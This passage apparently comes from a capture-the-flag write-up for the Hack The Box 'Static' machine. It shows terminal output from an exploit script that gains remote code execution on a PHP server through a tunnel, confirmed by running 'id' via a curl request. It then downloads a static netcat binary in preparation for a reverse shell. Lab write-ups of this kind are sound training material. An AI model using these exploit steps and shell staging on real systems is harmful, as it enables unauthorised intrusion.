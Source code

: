 ## RCE Exploit

We can run it against the server through our tunnel:

```sh
┌──(root💀kali)-[~/htb/static]
└─# python3 exploit.py --url http://localhost/index.php
[*] QSL candidate: 1754, 1759, 1764
[*] Target seems vulnerable (QSL:1754/HVL:224): PHPSESSID=d129421703528e986f0c21155dd4b765; path=/
[*] RCE successfully exploited!

    You should be able to run commands using:
    curl http://localhost/index.php?a=bin/ls+/
```

Looks good, let's try it:

```sh
┌──(root💀kali)-[~/htb/static]
└─# curl -s http://localhost/index.php?a=/usr/bin/id
[03-Nov-2021 22:41:23 UTC] PHP Warning:  Unknown: Unable to load dynamic library 'uid=33(www-data) gid=33(www-data) groups=33(www-data)
' - uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

That works, so we have remote code execution to the server through our tunnel. What we can't do though is execute a reverse shell on the pki server and catch it back here on Kali. Instead we'll need to be on the web server in the middle, so we just have to copy a static binary of netcat across as it isn't on the box currently.

There's plenty of options on Github, I used [this](https://github.com/H74N/netcat-binaries/blob/master/nc) one:

```sh
┌──(root💀kali)-[~/htb/static]
└─# wget https://github.com/H74N/netcat-binaries/blob/master/nc?raw=true -O nc
--2021-11-05 16:54:06--  https://github.com/H74N/netcat-binaries/blob/master/nc?raw=true
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://github.com/H74N/netcat-binaries/raw/master/nc [following]
--2021-11-05 16:54:06--  https://github.com/H74N/netcat-binaries/raw/master/nc
Reusing existing connection to github.com:443.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/H74N/netcat-binaries/master/nc [following]
--2021-11-05 16:54:06--  https://raw.githubusercontent.com/H74N/netcat-binaries/master/nc
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 779832 (762K) [application/octet-stream]
Saving to: ‘nc’
nc            100%[========================================>] 761.55K  3.34MB/s    in 0.2s    
2021-11-05 16:54:06 (3.34 MB/s) - ‘nc’ saved [779832/779832]
```
